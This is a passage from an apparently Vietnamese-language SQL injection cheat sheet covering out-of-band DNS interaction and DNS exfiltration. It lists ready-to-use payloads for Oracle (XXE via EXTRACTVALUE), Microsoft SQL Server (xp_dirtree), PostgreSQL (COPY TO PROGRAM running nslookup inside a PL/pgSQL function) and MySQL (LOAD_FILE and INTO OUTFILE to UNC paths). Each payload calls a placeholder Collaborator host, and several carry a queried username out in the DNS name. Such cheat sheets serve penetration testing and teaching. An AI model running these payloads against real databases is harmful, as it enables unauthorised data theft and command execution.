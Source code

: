 3. PostgreSQL<br>
- copy (SELECT '') to program 'nslookup your-collaborator-subdomain.burpcollaborator.net';<br>
4. MySQL<br>
- LOAD_FILE('\\\\your-collaborator-subdomain.burpcollaborator.net\\a');
- SELECT 'test' INTO OUTFILE '\\\\your-collaborator-subdomain.burpcollaborator.net\\a';<br>

XII. DNS lookup with data exfiltration<br>

![image](https://github.com/bangngoc116/SQL-Injection-/assets/127403046/1ebed1cf-7fbc-440b-b91d-888461a73d37)<br>

- Bạn có thể khiến cơ sở dữ liệu thực hiện một tra cứu DNS tới một miền ngoài chứa kết quả của một truy vấn bị tiêm vào. Để làm điều này, bạn sẽ cần sử dụng Burp Collaborator để tạo ra một tên miền con
 độc nhất của Burp Collaborator mà bạn sẽ sử dụng trong cuộc tấn công, sau đó kiểm tra máy chủ Collaborator để lấy chi tiết của bất kỳ tương tác DNS nào, bao gồm dữ liệu bị rò rỉ.<br>
 1. Oracle<br>
 - SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://' || (SELECT username FROM users WHERE ROWNUM=1) || '.your-collaborator-subdomain.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual;<br>
 2. Microsoft SQL Server<br>
 - declare @p varchar(1024);set @p=(SELECT username FROM users WHERE id=1);exec('master..xp_dirtree "//'+@p+'.your-collaborator-subdomain.burpcollaborator.net/a"');<br>
 3. PostgreSQL<br>
 ```
create OR replace function f() returns void as $$
declare c text;
declare p text;
begin
SELECT into p (SELECT username FROM users LIMIT 1);
c := 'copy (SELECT '''') to program ''nslookup '||p||'.your-collaborator-subdomain.burpcollaborator.net''';
execute c;
END;
$$ language plpgsql security definer;
SELECT f();
```
<br>
4. MySQL<br>
SELECT username FROM users LIMIT 1 INTO OUTFILE '\\\\your-collaborator-subdomain.burpcollaborator.net\\a';<br>
